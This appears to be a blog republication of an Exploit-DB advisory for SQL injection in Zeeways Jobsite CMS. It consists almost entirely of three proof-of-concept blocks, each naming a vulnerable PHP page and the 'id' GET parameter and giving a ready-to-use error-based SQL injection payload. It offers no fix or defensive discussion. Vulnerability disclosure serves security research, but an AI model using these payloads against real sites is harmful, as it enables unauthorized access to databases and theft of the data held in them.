 ```yaml
---
layout:     post
title:      "Zeeways Jobsite CMS - 'id' SQL Injection"
date:       2019-03-25 12:40
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Zeeways Jobsite CMS - 'id' SQL Injection
# Date: 25.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: http://www.zeeways.com/jobsite-cms/1/productdetail
# Demo Site: http://www.zeewayscms.com/jobsite/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/news_details.php?id=1
Vulnerable Parameter: id (GET)
Payload: id=-5236" OR 1 GROUP BY CONCAT(0x716a627871,(SELECT (CASE WHEN
(5640=5640) THEN 1 ELSE 0 END)),0x71626b6271,FLOOR(RAND(0)*2)) HAVING
MIN(0)#

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/jobs_details.php?id=1
Vulnerable Parameter: id (GET)
Payload: id=-5236" OR 1 GROUP BY CONCAT(0x716a627871,(SELECT (CASE WHEN
(5640=5640) THEN 1 ELSE 0 END)),0x71626b6271,FLOOR(RAND(0)*2)) HAVING
MIN(0)#

----- PoC 3: SQLi -----

Request: http://localhost/[PATH]/job_cmp_details.php?id=1
Vulnerable Parameter: id (GET)
Payload: id=-5236" OR 1 GROUP BY CONCAT(0x716a627871,(SELECT (CASE WHEN
(5640=5640) THEN 1 ELSE 0 END)),0x71626b6271,FLOOR(RAND(0)*2)) HAVING
MIN(0)#
